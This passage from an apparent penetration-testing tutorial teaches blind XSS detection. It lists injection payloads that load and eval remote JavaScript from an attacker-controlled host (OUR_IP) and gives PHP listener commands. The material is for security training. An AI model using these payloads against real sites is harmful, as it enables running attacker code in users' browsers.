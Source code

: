However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

* * *

## Loading a Remote Script

In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL, as follows:

```html
<script src="http://OUR_IP/script.js"></script>

```

So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from `script.js` to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:

```html
<script src="http://OUR_IP/username"></script>

```

If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

```

As we can see, various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the `XSS Discovery` section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

Before we start sending payloads, we need to start a listener on our VM, using `netcat` or `php` as shown in a previous section:

```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started

```
